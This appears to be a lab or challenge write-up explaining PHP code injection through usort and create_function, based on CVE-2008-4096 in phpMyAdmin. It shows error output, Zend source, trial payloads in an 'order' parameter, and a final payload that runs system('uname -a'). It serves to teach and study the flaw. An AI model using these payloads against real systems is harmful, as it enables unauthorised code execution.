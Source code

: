 # PHP\_CVE-2008-4096

When ordering information, developers can use two methods:

```
order by in a SQL request;
usort in PHP code.
```

The function usort is often used with the function create\_function to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.

By injecting a single quote, we can get an idea of what is going on:

```
Parse error: syntax error, unexpected '',$b->id'' (T_CONSTANT_ENCAPSED_STRING) in /var/www/index.php(29) : 
runtime-created function on line 1
 
Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/index.php
 on line 29
```

The source code of the function looks like the following:

```
ZEND_FUNCTION(create_function)
{
  [...]
  eval_code = (char *) emalloc(eval_code_length);
  sprintf(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(%s){%s}", Z_STRVAL_PP(z_function_args), Z_STRVAL_PP(z_function_code));
 
  eval_name = zend_make_compiled_string_description("runtime-created function" TSRMLS_CC);
  retval = zend_eval_string(eval_code, NULL, eval_name TSRMLS_CC);
  [...]
```

We can see that the code that will be evaluated is put inside curly brackets {...}, and we will need this information to correctly finish the syntax, after our injection.

As opposed to the previous code injection, here, you are not injecting inside single or double quotes. We know that we need to close the statement with } and comment out the rest of the code using // or # (with encoding). We can try poking around with:

```
?order=id;}//: we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.
?order=id);}//: we get a **warning**. That seems about right.
?order=id));}//: we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.
```

Since we now know how to finish the code correctly (a warning does not stop the execution flow), we can inject arbitrary code and gain code execution using ?order=id);}system('uname%20-a');//, as an example.

This challenge is based on a vulnerability in PHPMyAdmin: CVE-2008-4096
